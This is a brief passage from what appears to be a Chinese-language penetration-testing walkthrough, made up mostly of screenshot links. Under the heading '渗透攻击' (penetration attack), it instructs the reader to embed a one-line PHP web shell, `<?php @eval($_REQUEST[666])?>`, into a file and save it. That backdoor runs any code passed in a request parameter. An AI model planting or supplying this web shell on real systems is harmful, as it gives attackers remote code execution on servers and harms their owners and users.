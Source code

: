 ![image-20220811143326582](./st1.assets/image-20220811143326582.png)



## 渗透攻击

嵌入一句话木马`<?php @eval($_REQUEST[666])?>`，然后保存

![image-20220811143422502](./st1.assets/image-20220811143422502.png)
